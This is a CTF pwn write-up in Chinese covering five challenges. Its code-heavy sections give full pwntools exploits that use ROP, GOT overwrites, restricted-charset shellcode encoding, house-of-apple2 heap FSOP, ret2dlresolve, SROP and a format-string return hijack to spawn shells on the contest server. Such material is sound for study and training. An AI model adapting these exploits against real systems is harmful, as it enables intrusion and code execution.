





好久没写题解了

Updated: f0rm@t?赛后复现

# ez_canary



client有5次连接同一server的机会

当输入不为1时，可以覆盖saved rbp和返回地址

然后用0x200的read把got.__stack_chk_fail写为空函数，就随便玩了

这里rbp刚刚好，没有破坏got.write

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './client'
elf = ELF('./server')
libc = ELF('../libc-2.31.so')

choice = 1
port =   13774
target = '60.205.163.215'
if choice:
    p = remote(target, port)
else:
    p = process(file)

io = p

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))

ru(b'functions?\n')
sl(b'2')
s(p64(0x404030+64) + p64(0x401451))

s(p64(0x4018B4)*8 + p64(elf.bss(0x800)) + p64(0x401451))

pause()

s(p64(0)*9 + p64(0x401893) + p64(elf.got['puts']) + p64(elf.plt['puts']))

ru(b'This is canary!\n')
ru(b'[Server]: ')
libc.address = uu64(r(6)) - libc.sym['puts']
leak('libc.address')

p.close()
if choice:
    p = remote(target, port)
else:
    p = process(file)

pause()

ru(b'functions?\n')
sl(b'2')
s(p64(0x404030+64) + p64(0x401451))

s(p64(0x4018B4)*8 + p64(elf.bss(0x800)) + p64(0x401451))

pause()

s(p64(0)*9 + p64(0x401894) + p64(0x401893) + p64(libc.search(b'/bin/sh\x00').__next__()) + p64(libc.sym['system']))

itr()
```


# Old_5he1lc0de

参考了一下[quintuple-read](https://github.com/infobahnctf/CTF-2025/blob/main/pwn/quintuple-read/)的解法

需要用两种不同的字符集实现orw，且两次使用字节种类最多15

初始时只剩rdx和rip指向内存块的起点

第一次`mov rbx, rdx`，用rbx作为指针，目标代码和生成代码在同一个地方

用`add byte ptr [rbx], 1`对当前字节加一，`add bl, 1`将指针移动到下一位

解码完成后起始位置就是orw，`jmp rdx`即可

【使用了9种字节】

第二次用rdx作为指针，目标代码紧跟在生成代码后，无需跳转

用`inc byte ptr [rdx]`对当前字节加一，`inc dl`将指针移动到下一位

开始时`add dx,0x2929`，用无害指令将生成代码补齐

【使用了6种字节】

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './chal'
elf = ELF(file)

choice = 1
if choice:
    port =   19500
    target = '60.205.163.215'
    p = remote(target, port)
else:
    p = process(file)

io = p

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))

# debug('brva 0x0011ED')

# 无push+pop版本
shellcode = '''
    mov qword ptr [rdx+0x5000], 0x67616c66
    /* call open('rsp', 'O_RDONLY', 'rdx') */
    mov al, 2
    lea rdi, [rdx+0x5000]
    xor esi, esi /* O_RDONLY */
    syscall
    /* call sendfile(1, 'rax', 0, 0x7fffffff) */
    mov r10d, 0x7fffffff
    mov rsi, rax
    xor rax, rax
    mov al, 40
    xor rdi, rdi
    mov dil, 1
    cdq /* rdx=0 */
    syscall
'''
shellcode = asm(shellcode)

print(len(shellcode))

# s(shellcode)
# itr()
# exit(0)

STEP = asm('add bl, 1') # 80 c3 01
INC = asm('add byte ptr [rbx], 1') # 80 03 01

sc = bytearray(asm('mov rbx, rdx')) # 48 89 d3
generated = bytearray(asm('mov rbx, rdx'))

def inc(index):
    generated[index] = (generated[index] + 1) & 0xFF

i = 0
for byte in shellcode:
    while generated[i] != byte:
        inc(i)
        sc.extend(INC)
        generated.extend(INC)
    
    if i != len(shellcode) - 1:
        sc.extend(STEP)
        generated.extend(STEP)
    i += 1

sc.extend(asm('jmp rdx')) # ff e2

sla(b'2):', sc.hex())

pause()

STEP = asm('inc dl') # fe c2
INC = asm('inc byte ptr [rdx]') # fe 02

sc = bytearray(asm('add dx,0x2929')) # 66 81 c2 29 29
generated = bytearray(b'\x00'*0x3000)

def inc(index):
    generated[index] = (generated[index] + 1) & 0xFF

i = 0
for byte in shellcode:
    while generated[i] != byte:
        inc(i)
        sc.extend(INC)
    
    if i != len(shellcode) - 1:
        sc.extend(STEP)
    i += 1

sla(b'2):', (sc + (0x2929-len(sc))//2*STEP).hex())

itr()

# flag{1t_i5_Ha2d_r1ght?_029a3dbf-61d0-4e94-8863-da11296a0d04_NyPXKByB}
```


# failed

漏洞在`add_note`的size可以为负数或很大的数，且没有检查malloc是否成功



`show_note`中看似size为负数时write长度会为-1，无法正常输出

但实际上size为-1时长度为8，因为这里的条件赋值用的是`cmovbe`（below or equal，无符号）

于是可以绕过\0截断，泄露出heap地址

然后泄露libc基址

当size为很大的数（地址）时，malloc会失败，这样就可以在任意地方写一个\0

数字够大时，read不会尝试读取，但这里会读取，所以要输入一个数字+换行，否则之后的scanf会失败

打了一个常规的消除`prev_inuse`位+house of apple2，没有用到后门

如果知道程序基址的话，也能直接把user_logging改为0使用后门

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './admin'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
if choice:
    port =   23936
    target = '60.205.163.215'
    p = remote(target, port)
else:
    p = process(file)

io = p

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))
n2b     = lambda x                  :str(x).encode()

registered = []

def menu(i):
    sla(b'> ', n2b(i))

def reg(x):
    menu(1)
    sla(b'User name: ', n2b(x))
    sla(b'Password: ', n2b(x))
    registered.append(x)

def login(x):
    menu(2)
    sla(b'User name: ', n2b(x))
    sla(b'Password: ', n2b(x))

def logout():
    menu(5)

def switch(i):
    if i not in registered:
        reg(i)
    login(i)

def add(i, size, content = b''):
    switch(i)
    menu(1)
    sla(b'Size: ', n2b(size))
    ru(b'Content: ')
    if content != b'':
        s(content)
    logout()

def edit(i, content):
    switch(i)
    menu(2)
    sa(b'Content: ', content)
    logout()

def show(i):
    switch(i)
    menu(3)
    ru(b'Content: ')
    content = r(8)
    logout()
    return content

def free(i):
    switch(i)
    menu(4)
    logout()


# debug('brva 0x002819')
add(10, -1)
free(10)
add(10, -1)
heap = uu64(show(10)[:6]) << 12
leak('heap')

for i in range(1, 10):
    reg(i)

add(1, 0x410, b'\x00')
add(2, 0x100, b'\x00')
free(1)
add(1, 0x410, b'\x00')

libc.address = uu64(show(1)[:6]) - 0x203b00
leak('libc.address')

add(3, 0x417, b'\x00')
add(4, 0x4f7, b'\x00')
add(5, 0x17, b'\x00')

edit(2, p64(heap + 0xc30)*2)
edit(3, p64(heap + 0xb20)*2+p64(0)*2*64+p32(0x420))

# debug('b free')
add(9, heap+0x1058, b'6\n')
free(4)
add(6, 0x107, b'\x00')
add(7, 0x107, b'\x00')
add(8, 0x107, b'\x00')

free(8)
free(6)
stdout = libc.sym['_IO_2_1_stdout_']
edit(3, p64((heap>>12) ^ stdout))
add(6, 0x107, b'\x00')

fake_io = flat(
    {
        0x0: b"  sh;",
        0x28: libc.sym['system'],
        0x88: heap,    # lock writable addr
        0xA0: stdout - 0x40,   # _wide_data
        0xD8: libc.sym['_IO_wfile_jumps'] - 0x20,
    },
    filler=b"\x00"
)

debug('brva 0x002819')

switch(8)
menu(1)
sla(b'Size: ', n2b(0x107))
ru(b'Content: ')
s(fake_io)

# debug()

itr()
```

# Onlyfgets



一开始写了一个ret2dl，把system解析到got.fgets上

这个脚本本地能通，但是docker和远程都不通

（不是patchelf的问题）

没搞清楚docker内的调试，花费了很多时间，仍然不知道问题

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './onlyfgets'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 0
# port =   8889
# target = '127.0.0.1'
port =   16538
target = '60.205.163.215'
if choice:
    p = remote(target, port)
else:
    # p = process(file)
    p = process(["./ld-linux-x86-64.so.2", "--library-path", "./", file])

io = p

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)

def get_pid(process_name):
    ps_output = subprocess.check_output(['ps', '-a']).decode('utf-8')
    lines = ps_output.splitlines()
    for line in lines:
        if process_name in line:
            pid = line.split()[0]
            if pid.isdigit():
                return pid
    return None
 
def gdbremote(pid, name = 'n1j:onlyfgets', port = '10000', ip = '127.0.0.1'):
    os.system("gnome-terminal -- bash -c \"docker exec -it " + name + " gdbserver :" + port + " --attach " + pid + " \"")
    os.system("gnome-terminal -- bash -c \"gdb -ex \\\"target remote " + ip + ":" + port + "\\\" \"")

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))

pause()

# debug('set follow-fork-mode parent\nb *0x4011F0')
# gdbremote(get_pid("onlyfgets"))

pause()

ropp = ROP(elf)
bss = elf.bss(0xb00)

ret2dl = Ret2dlresolvePayload(elf, 'system', [], 0x404b60, elf.got['fgets'])
ropp.ret2dlresolve(ret2dl)

payload = b'A'*32 + p64(bss) + p64(0x4011DD)
assert b'\x0a' not in payload
sl(payload)

pause()

payload = b'A'*32 + p64(bss-0x300) + p64(0x4011DD) + ret2dl.payload + b'sh\x00'
assert b'\x0a' not in payload
sl(payload)

pause()

payload = b'A'*32 + p64(bss+0x88-0x10)
payload += ropp.chain() + p64(0x4011DD)
assert b'\x0a' not in payload
sl(payload)

itr()
```

后来搜了一下，发现有原题...然后去学习了一下

大部分ELF都有`__do_global_dtors_aux`，对这条指令从中间进入可以解析为一个magic gadget




如果程序有`__libc_csu_init`，就可以轻易控制`rbp`和`rbx`，从而进行任意地址写，不过这里没有

这题特殊点在于`fgets`执行后，`rdx`会被设置为`stdin`的`_flag` (0xfbad208b)

同时有两个控制`rbx`的gadget


而libc中`execve`在`alarm`下方，`ssignal`下方有`syscall <SYS_rt_sigreturn>`

于是可以结合三个gadget，把got.alarm改为execve，got.signal改为syscall sigreturn

注意最后直接跳转到plt.signal，避免压入的返回地址对srop造成影响

```python
from pwn import *

context(arch='amd64', os='linux')
context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './patched'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 1
# port =   8889
# target = '127.0.0.1'
port =   54556
target = '60.205.163.215'
if choice:
    p = remote(target, port)
else:
    p = process(file)
    # p = process(["/home/ctf/onlyfgets/ld-linux-x86-64.so.2", "--library-path", "/home/ctf/onlyfgets", "/home/ctf/onlyfgets/onlyfgets"])

io = p

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)

s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))

# debug('b *0x4011F0')

pause()

ret = 0x4011fd
pop_rdi_ret = 0x4011fc
pop_rbp_ret = 0x40114d
xor_rbx_ret = 0x4011FE
add_bl_dh_ret = 0x4010ae         # rbx ebx bx bh/bl | rdx edx dx dh/dl
add_rbp_3d_ebx_ret = 0x40114c

# rdx = 0xfbad208b | dh = 0x20
# rbx = 0 => 0xc0

# 0x73c31efcc540 <alarm>
# + 0xb40 = 0xc0*15
# 0x73c31efcd080 <execve>

payload = [b'\x00'*0x28]
payload += [add_bl_dh_ret]*6
payload += [pop_rbp_ret, elf.got['alarm']+0x3d]
payload += [add_rbp_3d_ebx_ret]*15
payload += [elf.sym['main']]

sl(flat(payload))
pause()

# rdx = 0xfbad208b | dh = 0x20
# rbx = 0 => 0x80

# 0x73c31ef24420 <ssignal>
# + 0x100 = 0x80*2
# 0x73c31ef24520  mov rax, 0xf
# 0x73c31ef24527  syscall <SYS_rt_sigreturn>

payload = [b'\x00'*0x28, xor_rbx_ret]
payload += [add_bl_dh_ret]*4
payload += [pop_rbp_ret, elf.got['signal']+0x3d]
payload += [add_rbp_3d_ebx_ret]*2
payload += [elf.sym['main']]

sl(flat(payload))
pause()
debug('b *0x4011F0')
bss = 0x404500

sl(flat(b'\x00'*0x20, bss-0x20, 0x4011DD))
pause()

frame = SigreturnFrame()
frame.rsp = bss
frame.rdi = 0x4044c0
frame.rip = 0x4011cd

payload = flat(b'/bin/sh\x00', b'\x00'*0x20, elf.plt['signal'], bytes(frame))
sl(payload)

itr()
```


# f0rm@t? （赛后复现）

应该先fuzz一下的，而不是通过静态分析直接看出漏洞

首先可以发现发送262个`%p`程序会正常结束，但发送263个`%p`会段错误

在printf结束处下断点，发现返回地址变成了栈上残留的一个libc函数地址

找到了一个附近的栈返回



而前面已经知道栈地址，能够控制`rbp`，现在只需一个`1/16`的爆破就可以让程序返回`main`

（一般栈上会留一个`main`地址）

刚刚的printf已经泄露出libc基址，直接`ret2libc`

```python
from pwn import *

context(arch='amd64', os='linux')
# context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
file = './chal'
elf = ELF(file)
libc = ELF('./libc.so.6')

choice = 0
if choice:
    port =   0
    target = ''
    p = remote(target, port)
else:
    p = process(file, aslr=True)

io = p

def debug(cmd=''):
    if choice==1:
        return
    gdb.attach(p, gdbscript=cmd)


s       = lambda data               :p.send(data)
sl      = lambda data               :p.sendline(data)
sa      = lambda x,data             :p.sendafter(x, data)
sla     = lambda x,data             :p.sendlineafter(x, data)
r       = lambda num=4096           :p.recv(num)
rl      = lambda num=4096           :p.recvline(num)
ru      = lambda x                  :p.recvuntil(x)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
uru64   = lambda                    :uu64(ru('\x7f')[-6:])
leak    = lambda name               :log.success('{} = {}'.format(name, hex(eval(name))))

# debug('brva 0x0015D8')

ru(b'1 2 256 ')
stack = int(rl(), 16)
leak('stack')

payload = b'%p.'*263
payload = payload.ljust(8*(257-6), b'A')
payload += p64(stack+0x10c8-8)*6
payload += p16(0xf572)

ru(b'...\n> ')
s(payload)

libc.address = int(r(50).decode().split('.')[2], 16) - 0x11ba91
leak('libc.address')

payload = b'%p.'*265
payload = payload.ljust(8*(257-6), b'A')
payload += p64(stack+0x10c8-8)*6
payload += p64(libc.address + 0x10f78b)
payload += p64(libc.search(b'/bin/sh\x00').__next__())
payload += p64(libc.sym['system'])

ru(b'...\n> ')
s(payload)

itr()
```